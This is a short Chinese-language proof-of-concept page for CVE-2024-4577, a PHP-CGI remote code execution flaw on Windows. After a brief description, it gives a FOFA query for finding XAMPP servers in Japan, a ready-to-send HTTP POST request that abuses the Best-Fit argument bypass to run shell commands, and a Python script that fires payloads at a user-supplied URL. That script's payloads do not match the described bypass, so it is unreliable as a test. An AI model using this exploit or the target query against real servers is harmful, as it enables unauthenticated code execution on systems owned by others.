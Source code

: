 ## PHP-CGI-Windows平台远程代码执行漏洞(CVE-2024-4577)

PHP 在设计时忽略 Windows 中对字符转换的Best-Fit 特性，当 PHP-CGI 运行在Window平台且使用了如下语系（简体中文936/繁体中文950/日文932等）时，攻击者可构造恶意请求绕过 CVE-2012-1823 补丁，从而可在无需登陆的情况下执行任意PHP代码。

## fofa

```
app="XAMPP" && country="JP"
```

## poc

```
POST /php-cgi/php-cgi.exe?%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host:
Content-Type: application/x-www-form-urlencoded

<?php echo shell_exec("dir"); ?>
```

```python
import requests

def test_cgi_vulnerability(url):
    payloads = [
        '/cgi-bin/php-cgi.exe?arg=%0aContent-Type:%20text/plain%0a%0a<?php%20echo%20"test";?>',
        '/php-cgi/php-cgi.exe?arg=%0aContent-Type:%20text/plain%0a%0a<?php%20echo%20"test";?>'
    ]
    
    for payload in payloads:
        test_url = f"{url}{payload}"
        try:
            response = requests.get(test_url)
            if "test" in response.text:
                print(f"Potential vulnerability detected at: {test_url}")
            else:
                print(f"No vulnerability detected at: {test_url}")
        except Exception as e:
            print(f"Error testing {test_url}: {e}")

if __name__ == "__main__":
    url = input("Enter the URL to test (e.g., http://example.com): ")
    test_cgi_vulnerability(url)
```

![image-20240608111234326](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406081112391.png)
